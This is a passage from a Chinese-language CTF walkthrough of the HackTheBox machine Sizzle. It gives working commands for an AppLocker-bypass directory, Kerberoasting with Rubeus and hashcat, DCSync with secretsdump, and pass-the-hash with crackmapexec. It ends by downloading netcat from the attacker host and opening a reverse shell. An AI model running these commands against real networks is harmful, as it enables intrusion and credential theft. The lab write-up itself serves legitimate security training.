

我被拒绝了。然后我决定确认一下我是否真的在 CLM，事实上我也在:



我尝试了常见的旁路，即降级到`PowerShell`版本 2，但这在`evil-winrm`上不起作用，至少根据我的经验。



然后，我决定将文件放在一个通常绕过`[Applocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker)`的目录中(基本上是另一种防止未授权的二进制文件和应用程序)。

```
c:\windows\system32\spool\drivers\color\
```

然后我用 PowerShell 的`Invoke-WebRequest`把`SharpHound.ps1`(命名为 s.ps1)放在盒子上。我试图进口`SharpHound`，但仍然无法。我一直在运行`SharpHound`，向您展示启用 CLM 的局限性。然后我在盒子上贴上【s.exe】(取名为 T4)。我可以运行它。



然后，我尝试通过 SMB 复制`Bloodhound` zip 文件:



在我的`impacket` smbserver 上，我收到重复的传入和关闭的连接，我认为如果客户端因为不允许连接到 SMBv1 共享而无法进行身份验证，这就是一个问题。



然后，我决定将我的共享挂载为驱动器`x:`，指定用户名和密码进行身份验证:

```
net use x: \\10.10.14.3\sifo /user:sifo sifopassword
```

我重新运行了我的 smbserver:

```
sudo /opt/impacket/examples/smbserver.py sifo . -smb2support -username sifo -password sifopassword
```

我复制了文件。我还计算了文件的 MD5 哈希，以进行完整性检查。



现在我在本地机器上有了这个文件，我启动`neo4j`作为启动`Bloodhound` GUI 的准备。

```
/usr/bin/neo4j console
```



我接着发射`Bloodhound`:


然后我查看了`mrlky’s`的详细信息:


值得注意的是，他有一套 SPN。另外，`mrlky`在域`HTB.LOCAL`上有两个`GetChanges(DCSync)`权限，我可以在以后访问`mrlky`用户时使用它们。


## Kerberoasting 认证:

`Kerberoasting`是一种攻击，允许您恢复与`SPN`相关联的帐户密码。我需要为目标帐户的那个`SPN`请求一个服务票`(TGS)`。`TGS`的加密类型是`RC4_HMAC_MD5`，这意味着`TGS`是使用目标账户的 NTLM 散列加密的。如果帐户的密码足够弱，我可以破解它并获得明文密码。

知道为用户`mrlky`设置了一个`SPN`，我可以尝试 Kerberoasting 认证这个帐户。我将使用 Rubeus，这是一个在活动目录评估中非常有用的工具。然后我在机器上下载了一个副本，运行它来检查它是否正常。


我首先计算明文密码`Ashare1972`的 RC4，因为这是请求 TGT 所必需的:

```
.\r.exe hash /password:Ashare1972
```


然后我请求一张票作为`amanda`，并将文件保存到`amanda-tgt`，

```
.\r.exe asktgt /user:amanda /rc4:7D0516EA4B6ED084F3FDF71C47D9BEB3 /outfile:amanda-tgt
```


现在我有了一个 TGT，我可以请求服务`http/sizzle`的服务票，它将使用`mrlky`的 NTLM 散列加密。

```
.\r.exe asktgs /service:http/sizzle /ticket:amanda-tgt
```


看到一切正常，我现在可以使用 Rubeus 的 kerberoast 模块再次请求一个`TGS`:

```
.\r.exe kerberoast /spn:http/sizzle /ticket:amanda-tgt /nowrap
```


检查 hashcat 的示例 hashes，破解`TGS-REP etype 23`(我认为是`RC4-HMAC`)需要`mode 13100`。


```
hashcat -m 13100 spn-hash /usr/share/wordlists/rockyou.txt --force
```


Hashcat 能够破解它。mrlky 的密码是`Football#7`。

请注意，用户 mrlky 在域`HTB.LOCAL`上拥有`GetChanges`权限。在警犬的帮助下:

> 用户 MRLKY@HTB。LOCAL 在域 HTB.LOCAL 上具有 DS-Replication-Get-Changes 特权。单独来说，此边缘不授予执行攻击的能力。但是，结合 DS-Replication-Get-Changes-All，主体可能会执行 DCSync 攻击。


在我想到滥用 DCsync 之前，我需要在`mrlky.`的上下文中重复前面执行的步骤，以获得一个`.cer`文件和一个`.key`文件来连接到`PS Remoting`。从. p12 文件生成 `.key`文件:

```
openssl pkcs12 -in mrlky.p12 -nocerts -out mrlky.key
```

生成 CSR:

```
openssl req -newkey rsa:2048 -keyout mrlky.key -nodes -out mrlky.csr
```

我现在可以在 SIZZLE 上以`mrlky`的身份登录:

```
evil-winrm -u mrlky -i 10.10.10.103 -S -c mrlky.cer -k mrlky.key -p Football#7
```


检查`C:\Users`目录下的文件:

```
gci -path c:\users\ -recurse -depth 3
```

我现在可以访问`user.txt:`


## DCSync:

知道机器上运行了一些安全控制，我决定只使用 impacket 的`secretsdump.py`,而不是在机器上使用 Mimikatz:

```
/opt/impacket/examples/secretsdump.py htb/mrlky@10.10.10.103
```


我现在有了所有用户的散列。然后我尝试使用 impacket 中的`psexec.py`来执行命令，如`Administrator`:

```
/opt/impacket/examples/psexec.py htb/administrator@10.10.10.103 whoami -hashes :f6b7160bfc91823792e0ac3a162c9267
```


可惜就是挂了。然后我使用`cme`运行命令`hostname`，使用`-x`标志:

```
sudo /opt/cme smb 10.10.10.103 -d HTB -u administrator -H f6b7160bfc91823792e0ac3a162c9267 -x hostname
```


我得到了`sizzle`的响应，这意味着一切看起来都很好。然后，我尝试使用`-X`标志通过 PowerShell 执行一个命令:

```
sudo /opt/cme smb 10.10.10.103 -d HTB -u administrator -H f6b7160bfc91823792e0ac3a162c9267 -X gci
```


我得到了我所期待的。我现在可以简单地上传一个`netcat`可执行文件，并使用它获得一个反向 shell。我在 SIZZLE 机器上下载了一个可执行文件:

```
iwr -uri [http://10.10.14.3/nc.exe](http://10.10.14.3/nc.exe) -outfile nc.exe
```

我在我的 Kali 上设置了我的监听器:

```
rlwrap nc -nlvp 9001
```

> 注意:我使用 rlwrap，这样当我得到一个 shell 时就可以使用箭头键。

然后，我执行一个命令，使用 cme 启动到我的监听器的连接:

```
sudo /opt/cme smb 10.10.10.103 -d HTB -u administrator -H f6b7160bfc91823792e0ac3a162c9267 -X "c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.3 9001 -e cmd.exe"
```

在我的监听器上，我得到一个连接。我确认我在主机 SIZZLE 上以`Administrator`的身份运行。


我现在可以在`Administrator\Desktop`下面列出文件，并在那里找到 root.txt:


这就是我如何解决 HacktheBox 的 Sizzle 问题！这是一个可怕的旅程，但绝对值得！感谢阅读！🍺